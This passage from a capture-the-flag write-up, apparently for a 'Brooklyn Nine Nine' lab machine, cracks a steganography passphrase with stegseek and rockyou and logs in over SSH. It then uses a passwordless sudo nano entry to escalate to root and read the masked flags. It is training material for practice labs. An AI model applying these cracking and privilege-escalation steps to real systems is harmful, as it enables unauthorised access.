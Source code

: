 ```bash
steghide: can not uncompress data. compressed data is corrupted.
```

3. Let's now try to find a secret cracker to get the data out. One of the tool that is [Stegseek](https://github.com/RickdeJager/stegseek?tab=readme-ov-file). It is basically stegcracker on steroids. Let's give it a run. 

```bash
└─$ stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "*****"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

4. Wow we get some interesting information from the captain and lost dad of Jake. Let's use this [note](web/brooklyn99.jpg.out) to our usefulness. 


## INITIAL ACCESS - SSH

1. We get into the system as `holt`. We land on it's home page. We can now read the user flag. 

```bash
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ pwd
/home/holt
holt@brookly_nine_nine:~$ cat user.txt 
******************************
```

2. Now let's try to get fish around and escalate to some other worthwhile user as holt has nothing. We found in low hanging fruit `sudo -l`.

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

3. We find that old friend `nano` to be root runnable. This will allow us to run the system as root using [this](https://gtfobins.github.io/gtfobins/nano/#sudo).

## PRIVESC

1. Using the above method, we escalate to root. Now the keys are ours and so is the kingdom. Let's get on with the loot.

```bash
root@brookly_nine_nine:~# ls
nano.save  user.txt
root@brookly_nine_nine:~# cd /root/
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: ******************************

Enjoy!!
```
